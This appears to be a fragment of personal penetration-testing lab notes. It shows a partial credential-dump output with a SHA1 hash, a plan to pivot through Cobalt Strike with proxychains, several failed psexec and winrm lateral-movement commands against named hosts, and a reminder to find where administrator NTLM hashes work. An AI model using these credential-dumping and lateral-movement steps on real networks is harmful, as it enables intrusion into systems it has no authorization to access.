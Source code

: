 ```powershell
	 * SHA1     : 570e49936ec2e700501645c102f53b64f66be28d
	tspkg :	
	wdigest :	
	kerberos :	
	ssp :	
	credman :	

```

- Probably have to chain proxychains together from NIX01 to MS01 (through cobalt strike) to internal devices


jump psexec64 WSADM.corp.local smb  // nope didnt work
jump winrm63 WSADM.corp.local smb 


jump psexec64 172.16.1.220 smb  // nope didnt work
jump winrm63 172.16.1.220 smb 
172.16.1.220
Watch this for pivoting
https://www.youtube.com/watch?v=QlotGFMuRBA

Burnt out for the day, calling it quits.
Need to figure out where the administrator NTLM hashes are able to go.